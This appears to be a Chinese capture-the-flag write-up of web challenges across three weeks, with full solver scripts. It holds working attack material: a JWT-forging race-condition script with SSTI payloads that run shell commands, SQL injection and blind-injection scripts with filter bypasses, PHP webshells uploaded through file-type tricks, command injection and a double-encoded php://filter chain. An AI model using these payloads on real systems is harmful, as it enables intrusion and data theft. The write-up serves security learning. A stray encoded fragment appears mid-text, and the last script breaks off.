通过访问admin页面获取服务器运行时间，计算出JWT签名密钥伪造管理员令牌。利用竞争条件漏洞，在多个线程中同时发送正常管理员请求和包含SSTI payload的恶意请求，当服务器在验证JWT后、渲染页面前的短暂时间窗口内，恶意payload通过竞争条件覆盖临时用户数据，触发SSTI执行系统命令

（不太稳定）

```
import requests
import jwt
import hashlib
import time
import threading
import re

target = "http://39.106.48.123:43714/"


def get_running_time():
    """获取服务器运行时间"""
    try:
        resp = requests.get(target + "admin", cookies={'session': 'invalid'})
        if "System has been running" in resp.text:
            match = re.search(r'System has been running (\d+) seconds', resp.text)
            if match:
                return int(match.group(1))
    except:
        pass
    return None


def get_fresh_admin_token():
    """获取管理员token"""
    running_time = get_running_time()
    if running_time is None:
        return None

    current_time = round(time.time())
    time_started = current_time - running_time - 2  # 已知正确偏移

    secret = hashlib.sha256(str(time_started).encode()).hexdigest()
    admin_payload = {"id": 1, "role": "admin", "name": "Administrator"}

    token = jwt.encode(admin_payload, secret, algorithm='HS256')
    if isinstance(token, bytes):
        token = token.decode('utf-8')
    return token


def precise_race_condition_attack():
    print("开始精确竞争条件攻击...")

    admin_token = get_fresh_admin_token()
    if not admin_token:
        print("无法获取管理员token")
        return []

    print(f"使用新鲜token: {admin_token[:30]}...")

    results = []
    request_count = [0]

    def victim_thread():
        """受害者线程：使用管理员token访问/admin"""
        for i in range(20):
            try:
                request_count[0] += 1
                resp = requests.get(target + "admin", cookies={'session': admin_token}, timeout=0.5)
                if "Welcome Back" in resp.text:
                    result = resp.text.replace("Welcome Back, ", "")
                    if result != "Administrator":
                        results.append(f"竞争成功! 请求#{request_count[0]}: {result}")
                        print(f"!!! 发现异常响应: {result}")
            except:
                pass

    def attacker_thread():
        """攻击者线程：快速修改tempuser"""
        running_time = get_running_time()
        if not running_time:
            return

        current_time = round(time.time())
        time_started = current_time - running_time - 2
        secret = hashlib.sha256(str(time_started).encode()).hexdigest()

        attack_payloads = [
            "{{7*7}}",
            "{{config}}",
            "{{lipsum.__globals__}}",
            "flag{test}",
            "{{''.__class__.__mro__[1].__subclasses__()}}",
        ]

        for payload in attack_payloads:
            attack_payload = {"id": 1, "role": "admin", "name": payload}
            attack_token = jwt.encode(attack_payload, secret, algorithm='HS256')
            if isinstance(attack_token, bytes):
                attack_token = attack_token.decode('utf-8')

            for i in range(10):
                try:
                    request_count[0] += 1
                    requests.get(target, cookies={'session': attack_token}, timeout=0.1)
                    requests.get(target + "admin", cookies={'session': attack_token}, timeout=0.1)
                except:
                    pass

    def timing_attack():
        """精确时间控制攻击"""
        for i in range(30):
            try:
                request_count[0] += 1
                time.sleep(0.1)
                guest_token = get_fresh_admin_token()
                if guest_token:
                    requests.get(target, cookies={'session': guest_token}, timeout=0.05)
            except:
                pass

    threads = []

    for i in range(5):
        t = threading.Thread(target=victim_thread)
        threads.append(t)
        t.start()

    for i in range(3):
        t = threading.Thread(target=attacker_thread)
        threads.append(t)
        t.start()

    for i in range(2):
        t = threading.Thread(target=timing_attack)
        threads.append(t)
        t.start()

    for t in threads:
        t.join(timeout=5)

    return results


def exploit_with_flag_payloads():
    """使用flag相关的payload进行攻击"""
    print("
使用flag相关payload攻击...")

    running_time = get_running_time()
    if not running_time:
        return

    current_time = round(time.time())
    time_started = current_time - running_time - 2
    secret = hashlib.sha256(str(time_started).encode()).hexdigest()

    flag_payloads = [
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag*').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('find / -name "*flag*" -type f 2>/dev/null | head -5 | xargs cat').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('env | grep -i flag').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -la').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat *.txt').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ps aux | grep flag').read()}}",
    ]

    for payload in flag_payloads:
        print(f"尝试payload: {payload[:60]}...")

        attack_payload = {"id": 1, "role": "admin", "name": payload}
        attack_token = jwt.encode(attack_payload, secret, algorithm='HS256')
        if isinstance(attack_token, bytes):
            attack_token = attack_token.decode('utf-8')

        victim_payload = {"id": 1, "role": "admin", "name": "Administrator"}
        victim_token = jwt.encode(victim_payload, secret, algorithm='HS256')
        if isinstance(victim_token, bytes):
            victim_token = victim_token.decode('utf-8')

        def victim():
            for i in range(10):
                try:
                    resp = requests.get(target + "admin", cookies={'session': victim_token}, timeout=0.3)
                    if "Welcome Back" in resp.text:
                        result = resp.text.replace("Welcome Back, ", "")
                        if result != "Administrator" and len(result) > 10:
                            print(f"!!! 竞争成功: {result}")
                except:
                    pass

        def attacker():
            for i in range(10):
                try:
                    requests.get(target, cookies={'session': attack_token}, timeout=0.1)
                    requests.get(target + "admin", cookies={'session': attack_token}, timeout=0.1)
                except:
                    pass

        threads = []
        for i in range(3):
            t = threading.Thread(target=victim)
            threads.append(t)
            t.start()

        for i in range(2):
            t = threading.Thread(target=attacker)
            threads.append(t)
            t.start()

        for t in threads:
            t.join(timeout=2)


def check_simple_race():
    """简单的竞争条件测试"""
    print("
简单竞争条件测试...")

    admin_token = get_fresh_admin_token()
    guest_token = get_fresh_admin_token()

    if admin_token and guest_token:
        for i in range(10):
            try:
                t1 = threading.Thread(target=lambda: requests.get(target + "admin", cookies={'session': admin_token}))
                t2 = threading.Thread(target=lambda: requests.get(target, cookies={'session': guest_token}))

                t1.start()
                t2.start()

                t1.join(timeout=1)
                t2.join(timeout=1)
            except:
                pass


def main():
    """主函数"""
    print("开始JWT预测 + 竞争条件攻击...")

    running_time = get_running_time()
    if running_time:
        print(f"服务器运行时间: {running_time} 秒")

    results = precise_race_condition_attack()
    if results:
        print("攻击结果:")
        for result in results:
            print(f"  {result}")

    exploit_with_flag_payloads()

    check_simple_race()

    print("
攻击完成!")


if __name__ == "__main__":
    main()
```



```
flag{1e9541c7-04e3-4d12-9482-02a1f8417d11}
```

## 二进制博客

先随便注册一个号登录进去



进去随便发一篇博客然后再删除，发现会自动跳转到一个博客管理的页面，即/blog\_manager.php路由



发现有导入功能，要导入.dat文件，随便写个空文件改成.dat文件上传，发现会提示反序列化失败



叫ai写个生成.dat文件的脚本

```
<?php
class Blog {
    public $id;
    public $title;
    public $content;
    public $user_id;
    public $username;
    public $created_at;
    public $updated_at;
    public $template;
}

// 创建数据
$blog = new Blog();
$blog->id = 10;
$blog->title = "Test Blog";
$blog->content = "Hello World";
$blog->user_id = 1;
$blog->username = "admin";
$blog->created_at = "2024-01-15 10:30:00";
$blog->updated_at = "2024-01-15 10:30:00";
$blog->template = "default.tpl";

$backup_data = array(
    'timestamp' => 1705300000,
    'version' => '2.1',
    'blog' => $blog,
    'signature' => 'a1b2c3d4e5f67890abcdef1234567890abcdef1234567890abcdef1234567890'
);

// 序列化并写入文件
$serialized_data = serialize($backup_data);
file_put_contents('backup.dat', $serialized_data);

echo "backup.dat 文件已生成！
";
echo "文件大小: " . filesize('backup.dat') . " 字节
";
?>
```

然后传进去，抓个包，这个template这里发现可以进行文件读取





尝试读一下/flag /proc/1/environ之类的，发现不好使

读取flag.php时会报错500



尝试用过滤器封装一下



成功读取到内容



然后结果再base64解密一下即可



```
flag{84e47891-ec4f-4796-a657-f1b26ae6c6c1}
```

ext%22%3A%22COLLECTLNFO%22%2C%22x%22%3A1342%2C%22y%22%3A96%2C%22width%22%3A186%2C%22height%22%3A25%7D%2C%7B%22text%22%3A%220ACCEPT%22%2C%22x%22%3A6%2C%22y%22%3A427%2C%22width%22%3A527%2C%22height%22%3A23%7D%2C%7B%22text%22%3A%22N%E4%B8%89%22%2C%22x%22%3A753%2C%22y%22%3A94%2C%22width%22%3A198%2C%22height%22%3A27%7D%2C%7B%22text%22%3A%227.369%22%2C%22x%22%3A843%2C%22y%22%3A366%2C%22width%22%3A217%2C%22height%22%3A32%7D%2C%7B%22text%22%3A%22%22%2C%22x%22%3Anull%2C%22y%22%3A0%2C%22width%22%3Anull%2C%22height%22%3A709%7D%5D%2C%22showTitle%22%3Afalse%2C%22title%22%3A%22%22%2C%22rotation%22%3A0%2C%22crop%22%3A%5B0%2C0%2C1%2C1%5D%2C%22averageHue%22%3A%22%232e2d2d%22%2C%22id%22%3A%22ude4eceb6%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%7D">

```
flag{842c4abe-7232-4f34-8ce8-28eaf0870f39}
```

### strange\_login

> 考点：sql注入已知用户名的万能密码

提示1=1，并且进入是一个登录口，要管理员身份才能登录。猜测要使用已知用户名的万能密码。

```
admin' or '1'='1
```

密码随便输入，登录即可


```
flag{0990a34c-70d9-49be-ae41-1fca9186a196}
```

### 宇宙的中心是php

> 考点：绕过反调试、代码审计

进入是一个动画页面


随手想看下源代码，发现按键被禁用了。直接找浏览器设置工具打开开发者工具，发现提示`s3kret.php`


访问s3kret.php路由，得到源码：

```
<?php
highlight_file(__FILE__);
include "flag.php";
if(isset($_POST['newstar2025'])){
    $answer = $_POST['newstar2025'];
    if(intval($answer)!=47&&intval($answer,0)==47){
        echo $flag;
    }else{
        echo "你还未参透奥秘";
    }
}
```

要求用post方式给newstar2025传值，且内容按照十进制解析结果不等于47、自动检测进制后解析结果等于47。这里将47转换成十六进制0x2F即可绕过


```
flag{adf3e286-d809-4252-bd93-fc4195cd42d8}
```

### 我真得控制你了

> 考点：反调试绕过、前端代码审计、弱口令、代码审计

进去有个启动按钮，但是点不了，应该是按钮被覆盖了


这次burp抓包看下页面源代码，可以看到按钮被shieldOverlay这个层屏蔽

直接用上面的方式打开开发者工具，在控制台运行如下语句移除这个屏蔽层

```
document.getElementById('shieldOverlay').remove();
```

然后启动即可进入到下一关，提示弱口令


爆破一下，发现密码为111111时成功跳转


认证之后进入portal.php路由，并且给出源码

```
<?php
error_reporting(0);

function generate_dynamic_flag($secret) {
    return getenv("ICQ_FLAG") ?: 'default_flag';
}


if (isset($_GET['newstar'])) {
    $input = $_GET['newstar'];
    
    if (is_array($input)) {
        die("恭喜掌握新姿势");
    }
    

    if (preg_match('/[^\d*\/~()\s]/', $input)) {
        die("老套路了，行不行啊");
    }
    

    if (preg_match('/^[\d\s]+$/', $input)) {
        die("请输入有效的表达式");
    }
    
    $test = 0;
    try {
        @eval("\$test = $input;");
    } catch (Error $e) {
        die("表达式错误");
    }
    
    if ($test == 2025) {
        $flag = generate_dynamic_flag($flag_secret);
        echo "<div class='success'>拿下flag！</div>";
        echo "<div class='flag-container'><div class='flag'>FLAG: {$flag}</div></div>";
    } else {
        echo "<div class='error'>大哥哥泥把数字算错了: $test ≠ 2025</div>";
    }
} else {
    ?>
<?php } ?>
```

要求通过get方式给newstar传参，要满足如下要求：

* 首先不能是数组
* 输入只能包含数字、运算符、括号、空格
* 输入不能全是数字和空格
* eval计算结果是2025

这里可以使用\*运算符，由45乘45得到2025


```
flag{9e506717-b19b-4d42-bd8d-b30a80eba0a6}
```

### 别笑，你也过不了第二关

一个小游戏题目，要求第二关100000分过关

在源代码中可以看到，将score参数传入flag.php，根据分数判断是否达到1000000


可以直接发送score=1000000的post到flag.php，在控制台运行下面的代码即可

```
// 直接发送通关请求
fetch("/flag.php", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  },
  body: "score=1000000" // 直接设置满分
})
.then(response => response.text())
.then(data => {
  console.log("Flag获取成功:", data);
  alert(data); // 显示flag
})
.catch(error => {
  console.error("请求失败:", error);
});
```


```
flag{63892e85-6cce-4fa7-8606-60bd0ba66037}
```

或者直接玩游戏，在控制台设置score为一个大于1000000的值，再随便动两下等结束即可


​

### 黑客小W的故事（1）

> 考点：http协议、对脑电波

要打900只吉欧才行，但是中间会被古神干掉，抓包看一下，发现发送了大量的hunt包，每次count都是1


直接将count改为900


进入下一关`/Level2_mato`

要与蘑菇先生对话说guding，但是直接点击交谈无反应，根据提示要get传入shipin=mogubaozi

对话之后提示要用post方式向他传递要说的话，随便给guding传个参数，要求用DELETE方法除掉chongzi


再加上个chongzi参数，然后改一下DELETE方法


之后访问进入给出的路由，进入第三关：`/Level3_SheoChallenge`

提示中说要修改UA头为CycloneSlash，但是回显说是假把式

改成:`User-Agent: CycloneSlash/1.`又说要最新的直接改成下面这样：

```
User-Agent: CycloneSlash/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.7049.96 Safari/537.36 Edg/135.0.3179.85
```

这次又要DashSlash


```
User-Agent: CycloneSlash/5.0 (Windows NT 10.0; Win64; x64) DashSlash/537.36 (KHTML, like Gecko) Chrome/135.0.7049.96 Safari/537.36 Edg/135.0.3179.85
```

进入下一关：`/Level4_Sly`

访问即可获得flag


```
flag{90b7e380-7274-43f1-b9ba-6663382368da}
```

# week2

### DD加速器

直接命令执行查看环境变量，在里面找到flag。(根目录下的是假的)

```
127.0.0.1;env
```


### 真的是签到欸

写个代码将要执行的语句进行对应加密，注意这里空格会被替换，使用`${IFS}`绕过

```
# save as make_cipher.py
import base64
import string

# ---- atbash 实现（对大小写字母分别映射，非字母保持不变） ----
def atbash(s: str) -> str:
    out = []
    for ch in s:
        if 'a' <= ch <= 'z':
            out.append(chr(ord('a') + (25 - (ord(ch) - ord('a')))))
        elif 'A' <= ch <= 'Z':
            out.append(chr(ord('A') + (25 - (ord(ch) - ord('A')))))
        else:
            out.append(ch)
    return ''.join(out)

# ---- rot13（Python 标准库 codecs 也可用，这里手写保证可见性） ----
def rot13(s: str) -> str:
    res = []
    for ch in s:
        if 'a' <= ch <= 'z':
            res.append(chr((ord(ch) - ord('a') + 13) % 26 + ord('a')))
        elif 'A' <= ch <= 'Z':
            res.append(chr((ord(ch) - ord('A') + 13) % 26 + ord('A')))
        else:
            res.append(ch)
    return ''.join(res)

if __name__ == '__main__':

    E = "system('cat${IFS}/flag');"   # <- 你可以替换成别的安全语句用于测试

    # 1) 对 E 做 rot13
    r = rot13(E)

    # 2) 对 rot13(E) 做 atbash，得到 X
    X = atbash(r)

    # 3) 为避免服务器那边的 str_replace(' ', '', ...) 出险，去掉 X 中的空格（通常 atbash 后不会出现空格，但可保险）
    X = X.replace(' ', '')

    # 4) base64 编码
    cipher_b64 = base64.b64encode(X.encode()).decode()

    print("E (to be eval'd) =")
    print(E)
    print()
    print("rot13(E) =")
    print(r)
    print()
    print("atbash(rot13(E)) = (this will be base64-decoded on server)")
    print(X)
    print()
    print("Final cipher (base64) to POST:")
    print(cipher_b64)

```

post传入：

```
cipher=dW91dGlhKCdrbXQke0VIVX0vaGJtZycpOw==
```

### 搞点哦润吉吃吃橘

在源码的注释里面看到账号密码：`Doro/Doro_nJlPVs_@123`

登录之后要求计算给定的表达式


```
import requests
import re
import time


def solve_challenge():
    base_url = "https://eci-2ze5djxemg4rlntogdkq.cloudeci1.ichunqiu.com:5000"

    # 1. 开始挑战，获取表达式和新的session
    start_url = f"{base_url}/start_challenge"

    # 使用原始登录session发起挑战
    original_session = "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiRG9ybyJ9.aOO3Mw.aYSwzbiz5vCzr5jj65TYspEPUNQ"

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Content-Type": "application/json",
        "Referer": f"{base_url}/home"
    }

    cookies = {"session": original_session}

    try:
        # 发起挑战请求
        resp = requests.post(start_url, headers=headers, cookies=cookies, timeout=5)
        print(f"开始挑战状态码: {resp.status_code}")

        if resp.status_code != 200:
            print("挑战开始失败")
            return None

        data = resp.json()
        expression = data['expression']
        print(f"表达式: {expression}")
        print(f"multiplier: {data['multiplier']}")
        print(f"xor_value: {data['xor_value']}")

        # 从表达式中提取时间戳（关键修正！）
        timestamp_match = re.search(r'\((\d+) \*', expression)
        if not timestamp_match:
            print("无法从表达式中提取时间戳")
            return None

        timestamp = int(timestamp_match.group(1))
        print(f"从表达式提取的时间戳: {timestamp}")

        # 获取新的session
        new_session = resp.cookies.get('session')
        if not new_session:
            print("未获取到新session")
            return None

        print(f"新session: {new_session[:50]}...")

        # 2. 计算token（使用表达式中的时间戳，不是当前时间戳）
        multiplier = data['multiplier']
        xor_value = int(data['xor_value'], 16)

        # 使用表达式中的时间戳进行计算
        token = (timestamp * multiplier) ^ xor_value

        print(f"计算token: {token}")

        # 3. 验证token（使用新session）
        verify_url = f"{base_url}/verify_token"
        verify_cookies = {"session": new_session}
        verify_data = {"token": token}

        # 确保在3秒内提交
        start_time = time.time()
        verify_resp = requests.post(verify_url, json=verify_data, cookies=verify_cookies, headers=headers, timeout=5)
        elapsed = time.time() - start_time

        print(f"验证状态码: {verify_resp.status_code}")
        print(f"验证耗时: {elapsed:.2f}秒")
        print(f"验证响应: {verify_resp.text}")

        return verify_resp.json()

    except requests.exceptions.RequestException as e:
        print(f"请求错误: {e}")
        return None
    except Exception as e:
        print(f"其他错误: {e}")
        return None


if __name__ == "__main__":
    result = solve_challenge()
    if result:
        print("最终结果:", result)
```

```
flag{e2e6431d-01cd-439b-949f-c391ec62180b}
```

### 白帽小K的故事（1）

在页面源代码发现这段函数


构造如下请求，读取一下给的star.mp3，发现会将该文件当作php代码执行。


直接写个php马读取flag，保存为2.mp3上传并读取

```
<?php system('cat /flag'); ?>
```


```
flag{3e8216b0-4154-4a3f-aab0-30c1b1c26a21}
```

### 小E的管理系统

根据提示为sql注入，输入2-1，查询的是节点1的结果，判断为数字型注入。

过滤空格，这里用`%0a`绕过

经过测试，得到字段数为5

```
/query.php?id=1%0aorder%0aby%0a5
```

查看回显位时发现逗号`,`被过滤，这里用join绕过，得到回显位为1

```
/query.php?id=1%0aunion%0aselect%0a*%0afrom%0a(select%0a1)a%0ajoin(select%0a2)b%0ajoin(select%0a3)c%0ajoin(select%0a4)d%0ajoin(select%0a5)e
```


查表

```
/query.php?id=1%0aunion%0aselect%0a*%0afrom%0a(select%0a1)a%0ajoin(select%0a2)b%0ajoin%0a(select%0a3)c%0ajoin(select%0a4)d%0ajoin(select%0agroup_concat(tbl_name)%0aFROM%0asqlite_master)e
```


获取表的结构，从sqlite\_master中读取sql字段

```
/query.php?id=1%0aunion%0aselect%0a*%0afrom%0a(select%0a1)a%0ajoin(select%0a2)b%0ajoin%0a(select%0a3)c%0ajoin(select%0a4)d%0ajoin(select%0agroup_concat(sql)%0aFROM%0asqlite_master)e 
```


在sys\_config表中可以看到有id，config\_key,config\_value

看一下内容，最终在config\_value字段中发现flag

```
/query.php?id=1%0aunion%0aselect%0a*%0afrom%0a(select%0a1)a%0ajoin(select%0a2)b%0ajoin%0a(select%0a3)c%0ajoin(select%0a4)d%0ajoin(select%0agroup_concat(config_value)%0aFROM%0asys_config)e
```

```
flag{359aabbe-8a6d-4a48-be42-f7b2a7b86437}
```

# week3

### 小E的秘密计划

根据题目的备份提示，访问`/www.zip`下载备份源码

```
C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   tips.txt


C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show :tips.txt
tips：什么是branch

C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show 1389b47
commit 1389b4798a8013a1c90fb2d867243d0da18c5175
Author: admin <admin@admin.com>
Date:   Wed Oct 1 12:10:02 2025 +0800

    初始化

diff --git a/index.html b/index.html
new file mode 100644
index 0000000..e3b643a
--- /dev/null
+++ b/index.html
@@ -0,0 +1,74 @@
+<!DOCTYPE html>
+<html lang="zh-CN">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Project X - 登录系统</title>
+    <link rel="stylesheet" href="../css/style.css">
+</head>
+<body>
+    <div class="floating-shapes">
+        <div class="floating-shape shape-circle" style="top: 15%; left: 10%;"></div>
+        <div class="floating-shape shape-ring" style="top: 40%; left: 85%;"></div>
+        <div class="floating-shape shape-polygon" style="top: 70%; left: 20%;"></div>
+    </div>
+
+
+    <div class="login-container">
+        <div class="login-box">
+            <div class="login-logo">
+                <h1>PROJECT X</h1>
+                <p>系统访问认证</p>
+                <p>tips: 默认密码使用uuid4生成，不可能被爆破</p>
+            </div>
+
+            <form id="login-form">
+                <div class="input-group">
+                    <label for="username">用户ID</label>
+                    <input type="text" id="username" placeholder="输入您的用户ID">
+                </div>
+
+                <div class="input-group">
+                    <label for="password">密码</label>
+                    <input type="password" id="password" placeholder="输入您的密码">
+                </div>
+                <div class="login-actions">
+                    <a href="/" class="btn">返回首页</a>
+                    <button type="button" class="btn btn-primary" id="login-btn">验证登录</button>
+                </div>
+
+                <div class="login-footer">
+                    <p>版本 5.1.4</p>
+                </div>
+            </form>
+        </div>
+    </div>
+    <script>
+        document.getElementById('login-btn').addEventListener('click', function() {
+            const username = document.getElementById('username').value;
+            const password = document.getElementById('password').value;
+
+            fetch('login.php', {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/x-www-form-urlencoded'
+                },
+                body: `username=${encodeURIComponent(username)}&password=${encodeURIComponent(password)}`
+            })
+            .then(response => {
+                if (response.redirected) {
+                    window.location.href = response.url;
+                } else {
+                    return response.text();
+                }
+            })
+            .then(text => {
+                if (text) {
+                    alert(text);
+                }
+            })
+            .catch(error => console.error('Error:', error));
+        });
+    </script>
+</body>
+</html>
\ No newline at end of file
diff --git a/login.php b/login.php
new file mode 100644
index 0000000..0d6a57d
--- /dev/null
+++ b/login.php
@@ -0,0 +1,17 @@
+<?php
+require_once 'user.php';
+$userData = getUserData();
+if ($_SERVER['REQUEST_METHOD'] === 'POST') {
+    $username = $_POST['username'] ?? '';
+    $password = $_POST['password'] ?? '';
+
+    if ($username === $userData['username'] && $password === $userData['password']) {
+        header('Location: /secret-xxxxxxxxxxxxxxxxxxx');
+        exit();
+    } else {
+        echo '登录失败,在git里找找吧';
+        exit();
+    }
+}
+
+

C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show 5f8ecc0
commit 5f8ecc03aee0de892013bba7ce0522876c419b58
Author: admin <admin@admin.com>
Date:   Wed Oct 1 12:14:08 2025 +0800

    新增提示

diff --git a/tips.txt b/tips.txt
new file mode 100644
index 0000000..a7fa1d9
--- /dev/null
+++ b/tips.txt
@@ -0,0 +1 @@
+tips：什么是branch
\ No newline at end of file

C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show 5fef682
commit 5fef682d7eceba025c894af4a5f8bf4680666368 (HEAD -> master)
Author: admin <admin@admin.com>
Date:   Wed Oct 1 12:14:25 2025 +0800

    删除提示

diff --git a/tips.txt b/tips.txt
deleted file mode 100644
index a7fa1d9..0000000
--- a/tips.txt
+++ /dev/null
@@ -1 +0,0 @@
-tips：什么是branch
\ No newline at end of file
```


在这个目录下的HEAD文件中发现branch


查看一下git记录

```
C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show 353b98f7c2fe77a5a426bf73576f5113820c4669
commit 353b98f7c2fe77a5a426bf73576f5113820c4669
Author: admin <admin@admin.com>
Date:   Wed Oct 1 12:11:48 2025 +0800

    测试，这个branch会删

diff --git a/user.php b/user.php
new file mode 100644
index 0000000..f3d34d7
--- /dev/null
+++ b/user.php
@@ -0,0 +1,8 @@
+<?php
+
+function getUserData() {
+    return [
+        'username' => 'admin',
+        'password' => 'f75cc3eb-21e0-4713-9c30-998a8edb13de'
+    ];
+}
\ No newline at end of file
```

得到账号密码：

```
'username' => 'admin',
'password' => 'f75cc3eb-21e0-4713-9c30-998a8edb13de'
```

访问登录：<https://eci-2zeiq1qx3sg2kcxdr0ws.cloudeci1.ichunqiu.com/public-555edc76-9621-4997-86b9-01483a50293e/>

登录之后下载.DS\_Store文件

<https://eci-2zeiq1qx3sg2kcxdr0ws.cloudeci1.ichunqiu.com/secret-1c84a90c-d114-4acd-b799-1bc5a2b7be50/.DS_Store>

利用工具ds\_store\_exp分析得到flag路径


之后访问即可

```
https://eci-2zeiq1qx3sg2kcxdr0ws.cloudeci1.ichunqiu.com/secret-1c84a90c-d114-4acd-b799-1bc5a2b7be50/ffffllllaaaagggg114514
```

```
flag{1366377a-7d01-430f-b722-473f6cbd5f43}
```

### 白帽小K的故事（2）

布尔盲注，抓个包可以看到查询正确的回显内容是：`{status: "ok", message: "Found"}`


以这个为标志写个脚本布尔盲注，这里过滤了空格，用括号绕过

```
import requests


def blind_sql_injection(url):
    """
    基于布尔盲注的自动化脚本，用于逐字符提取数据
    """
    extracted_data = ""

    for char_position in range(1, 1000):
        current_char = extract_single_char(url, char_position)

        if current_char:
            extracted_data += current_char
            print(f"位置 {char_position}: '{current_char}' - 当前结果: {extracted_data}")
        else:
            print(f"数据提取完成，共 {char_position - 1} 个字符")
            break

    return extracted_data


def extract_single_char(url, position):
    """
    提取指定位置的单个字符
    """
    low_bound = 32
    high_bound = 127

    while low_bound < high_bound:
        mid_point = (low_bound + high_bound) // 2

        # 构建SQL注入payload
        payload = construct_payload(position, mid_point)

        # 发送请求并检查响应
        is_greater = send_injection_request(url, payload)

        if is_greater:
            low_bound = mid_point + 1
        else:
            high_bound = mid_point

    # 检查是否找到有效字符
    final_char = chr(low_bound) if 32 <= low_bound <= 126 else None
    return final_char


def construct_payload(position, ascii_value):
    """
    构建SQL注入payload
    可根据需要修改查询语句
    """
    payloads = [
        # 获取所有数据库名
        f"amiya'AND(ascii(substr((SELECT(group_concat(schema_name))FROM(information_schema.schemata)),{position},1))>{ascii_value})#",

        # 获取Flag库的所有表名
        f"amiya'AND(ascii(substr((SELECT(group_concat(table_name))FROM(information_schema.tables)WHERE(table_schema='Flag')),{position},1))>{ascii_value})#",

        # 获取flag表的所有列名
        f"amiya'AND(ascii(substr((SELECT(group_concat(column_name))FROM(information_schema.columns)WHERE(table_name='flag')),{position},1))>{ascii_value})#",

        # 获取flag数据
        f"amiya'AND(ascii(substr((SELECT(flag)FROM(Flag.flag)),{position},1))>{ascii_value})#"
    ]

    # 使用最后一个payload（获取flag数据）
    return payloads[-1]


def send_injection_request(url, payload):
    """
    发送注入请求并解析响应
    """
    request_data = {"name": payload}

    try:
        response = requests.post(url, data=request_data, timeout=5)
        return '{"status":"ok","message":"Found"}' in response.text
    except requests.exceptions.RequestException as e:
        print(f"请求失败: {e}")
        return False


if __name__ == "__main__":
    target_url = "https://eci-2ze5w79g3ev6rmohwkr4.cloudeci1.ichunqiu.com:80/search"

    print("开始SQL盲注攻击...")
    final_flag = blind_sql_injection(target_url)
    print(f"最终结果: {final_flag}")
```

```
flag{866a6dd5-b7eb-429a-a82a-b34fe86b1a49}
```

### mirror\_gate

题目描述中提到了系统中的应用配置缺陷，应该就是.htaccess解析问题了

扫描/uploads目录可以发现有.htaccess文件


访问一下这个文件：

```
AddType application/x-httpd-php .webp
```

发现会把.webp后缀的文件当作php文件解析

写个马改为.webp后缀

这里还会检查文件内容，写入如下一句话木马绕过

```
<?=`more /fl*`?>
```


之后放包访问该文件即可

```
flag{4ae6fc8b-16d3-4d98-9559-66a6d89b2002}
```

​

### ez\_chain

过滤了如下内容：

```
array('/',':','php','base64','data','zip','rar','filter','flag');
```

并且会对输出结果循环base64解码，并且解出来的内容中不能包含f，这里使用`convert.iconv.ASCII.CP037` 将ASCII转换为CP037编码

```
php://filter/convert.base64-encode|convert.iconv.ASCII.CP037/resource=/flag
```

要双重url编码绕过黑名单

```
/?file=%2570%2568%2570%253a%252f%252f%2566%2569%256c%2574%2565%2572%252f%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2565%256e%2563%256f%2564%2565%257c%2563%256f%256e%2576%2565%2572%2574%252e%2569%2563%256f%256e%2576%252e%2541%2553%2543%2549%2549%252e%2543%2550%2530%2533%2537%252f%2572%2565%2573%256f%2575%2572%2563%2565%253d%252f%2566%256c%2561%2567
```


将结果的hex编码复制下面，利用python转换CP037编码

```
# CP037解码脚本

# 您提供的CP037编码十六进制字符串
hex_string = "E9 94 A7 88 E9 F3 A3 88 D5 E6 E9 89 E9 C4 83 F3 D5 A8 F0 F5 D5 A9 D9 93 D3 E3 D8 F4 D6 E6 E8 A3 E8 94 C6 92 E9 E2 F1 94 D4 A9 D4 F3 D5 E6 E5 91 D5 A9 87 A6 E8 A9 88 F9 C3 87 7E 7E"


# 将十六进制字符串转换为字节序列
def hex_to_bytes(hex_str):
    # 移除空格并转换为字节
    hex_clean = hex_str.replace(" ", "")
    try:
        bytes_data = bytes.fromhex(hex_clean)
        return bytes_data
    except ValueError as e:
        print(f"十六进制转换错误: {e}")
        return None


# 解码CP037编码
def decode_cp037(hex_str):
    # 转换为字节
    cp037_bytes = hex_to_bytes(hex_str)

    if cp037_bytes is None:
        return None

    print(f"字节长度: {len(cp037_bytes)}")
    print(f"原始字节: {cp037_bytes.hex().upper()}")

    try:
        # 尝试CP037解码
        decoded_text = cp037_bytes.decode('cp037')
        return decoded_text
    except UnicodeDecodeError as e:
        print(f"CP037解码错误: {e}")

        # 尝试其他可能的EBCDIC编码
        encodings_to_try = ['cp500', 'cp1047', 'ibm037', 'ebcdic-cp-us']

        for encoding in encodings_to_try:
            try:
                decoded = cp037_bytes.decode(encoding)
                print(f"使用 {encoding} 解码: {decoded}")
            except UnicodeDecodeError:
                print(f"{encoding} 解码失败")

        return None


# 主程序
if __name__ == "__main__":
    print("CP037解码结果:")
